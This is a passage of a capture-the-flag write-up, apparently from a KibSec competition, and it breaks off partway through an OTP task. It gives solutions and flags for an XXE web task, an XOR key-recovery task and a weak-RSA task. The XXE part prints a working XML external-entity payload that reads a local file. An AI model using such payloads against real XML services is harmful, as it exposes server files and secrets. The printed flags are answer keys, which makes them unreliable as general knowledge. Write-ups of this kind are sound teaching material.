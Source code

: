 ### Solution
Tihs task focuses on XXE attack. Since we know where the flag is. It is simple to extract it. We craft an XML payload that will get the flag file, store it in a variable and display it:<br>
`<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/flag.txt"> ]>
<part><flag>&xxe;</flag></part>`<br>

Flag: **KibSec{xD_xxe_216cedc1793e}**

# CRYPTO
## XOR^3
### Materials
hint: "Dobiveni key je potrebno ubaciti u flag format: KibSec{<k3>}"<br>
file: source.py

### Solution
Simple boolean logic and you reverse the calculation using xor. That's all!<br>
`from Crypto.Util.strxor import strxor`<br>

`# k3 = ?`<br>
`# xor_result = strxor(strxor(strxor(message, k1), k2), k3)`<br>
`# print(xor_result.hex()) -> 0c071b2c00081d371c3c3c36330f4411`<br>

`k1 = b'this_is_one_key1'`<br>
`k2 = b'this_another_one'`<br>
`message = b'xor_is_so_cool!!'`<br>

`mk1 = strxor(message, k1)`<br>
`mk2 = strxor(mk1, k2)`<br>
`xor_res = bytes.fromhex("0c071b2c00081d371c3c3c36330f4411")`<br>
`k3 = strxor(xor_res, mk2)`<br>
`print(k3)`

Flag: **KibSec{thisis_the_third}**

## Twin Prime Conjecture
### Materials
hint: "Postoji li beskonačno mnogo parova prostih brojeva čija je apsolutna razlika 2?"<br>
file: source.py

### Solution
This is a task of breaking a weak RSA. Weak, meaning _p_ and _q_ were close prime numbers so it was easy to factorize n.

Flag: **KibSec{bre34k1ng_rsa_f0r_fun_4nd_pr0f1t}**

## OTP
### Materials
hint: "forgot the flag :/
